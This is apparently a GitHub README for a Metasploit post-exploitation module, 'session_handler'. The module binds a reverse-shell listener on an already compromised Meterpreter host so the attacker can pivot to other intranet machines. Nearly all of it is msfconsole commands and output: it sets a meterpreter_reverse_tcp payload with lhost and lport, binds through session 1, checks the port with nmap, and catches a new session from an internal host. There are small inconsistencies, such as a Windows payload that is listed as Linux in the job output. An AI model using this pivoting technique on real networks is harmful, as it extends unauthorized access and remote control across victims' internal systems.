 # session_handler
a post module of metasploit, bind handler in meterpreter session 

# install 
copy session_handler.rb to   your metasploit installation folder(modules/exploits/multi) . 

# usage  
frist you need get a meretpreter session 
```bash
msf6 exploit(multi/handler) > sessions 

sessions
============

  Id  Name    Type                     Info           Connection
  --  ------    ------                     ------           ------
  1           meterpreter x86/windows  w-PC\w @ W-PC  192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
```




run  use exploit/multi/session_handler 
```bash

msf6 exploit(multi/handler) >   use exploit/multi/session_handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/session_handler) > options
msf6 exploit(multi/session_handler) > set lport  14444 
msf6 exploit(multi/session_handler) > set lhost 192.168.56.1 #local machine public address 
msf6 exploit(multi/session_handler) > set payload windows/x64/meterpreter_reverse_tcp 
msf6 exploit(multi/session_handler) > set session  1 #the meterpreter sessionid  
msf6 exploit(multi/session_handler) > run -j #as job
msf6 exploit(multi/session_handler) > jobs 

Jobs
====

  Id  name                           payload                          options
  --  ------                            ------------                           ------------------
  5   Exploit: multi/session_handler  linux/x64/meterpreter_reverse_tcp  tcp://192.168.56.1:14444
```


now ,you can see the port  14444 is binding in  192.168.56.102 (meterpreter session machine).

check port is open with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 17:43 CST
Nmap scan report for 192.168.56.102
Host is up (0.00047s latency).

PORT      STATE SERVICE
14444/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```




 execute windows/x64/meterpreter_reverse_tcp on other machine (The machine must have access to 192.168.56.102  ) , the you will be get a new meterpreter session from intranet host.

```bash
msf6 exploit(multi/session_handler) > [*] Meterpreter session 3 opened (192.168.56.1:14444 -> 192.168.56.1:40977) at 2022-07-30 17:32:46 +0800
msf6 exploit(multi/session_handler) > 
msf6 exploit(multi/session_handler) > sessions 
sessions
============

  Id  Nmae  Type                     Info                                                                    Connection
  --  ------    ------                     ------                                                                    ------
  1           meterpreter x86/windows  w-PC\w @ W-PC                                                           192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
  3           meterpreter x86/linux    w @ w-F117-V (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.168.1.12  192.168.56.1:14444 -> 192.168.56.1:40977 (192.168.56.1)
```
